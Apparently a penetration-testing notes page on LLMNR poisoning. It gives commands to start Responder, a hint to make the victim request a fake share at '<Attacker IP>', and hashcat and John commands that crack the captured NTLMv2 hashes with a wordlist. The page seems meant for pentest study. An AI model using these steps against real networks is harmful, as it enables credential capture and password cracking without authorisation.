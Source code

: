 # LLMNR Poisoning

## Practical

### Capture NTLMv2 Hash

#### Start Responder

```
sudo responder -I eth0
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Responder </p></figcaption></figure>

{% hint style="info" %}
Note: You have to request for an non existent share in the victim machine

\\\\\<Attacker IP>\FakeShare
{% endhint %}

#### Captured Hash

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Crack NTLMv2 Hash

#### Hashcat

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Hashcat</p></figcaption></figure>

#### John

```
john --wordlist=<wordlist.txt> hash.txt
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>John The Ripper</p></figcaption></figure>
